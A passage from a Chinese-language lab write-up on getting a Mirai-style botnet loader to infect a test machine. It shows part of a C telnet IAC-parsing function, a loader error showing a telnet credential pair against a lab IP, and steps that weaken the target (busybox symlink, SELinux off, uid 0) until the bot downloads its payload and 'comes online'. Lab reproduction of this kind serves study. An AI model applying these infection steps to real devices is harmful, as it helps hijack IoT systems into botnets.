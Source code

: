 ```c
        }

        current_iac_ptr += bytes_this_iac_command;
        remaining_in_buffer -= bytes_this_iac_command;
        total_consumed_from_start += bytes_this_iac_command;

        printf("[DEBUG IAC] Consumed %d bytes for this command. Total consumed so far: %d. Remaining in buffer: %d\n",
               bytes_this_iac_command, total_consumed_from_start, remaining_in_buffer);

    } // end while (remaining_in_buffer > 0)

end_iac_loop:
    printf("[DEBUG IAC] Exiting connection_consume_iacs. Total bytes consumed from start of buffer: %d\n", total_consumed_from_start);
    return total_consumed_from_start;
}
```

#### loader 感染错误

报错变为：`ERR|192.168.59.129:23 mother:fucker |7`

```bash
TELOUT: /bin/busybox ECCHI
TELIN: sh: /bin/busybox: No such file or directory
```

这里需要修改目标靶机环境，进行安全降级

- busybox 的位置和预期不符，加个软链接

```bash
bash-5.2$ which busybox
/usr/bin/busybox
bash-5.2$ ln -s /usr/bin/busybox /bin/busybox
```

- 关闭 selinux
- 把 mother 账号的 uid 改为 0

重新尝试，http-server 收到了下载请求：
![Pasted image 20250512221937.png](./Pasted%20image%2020250512221937.png)

即可成功上线
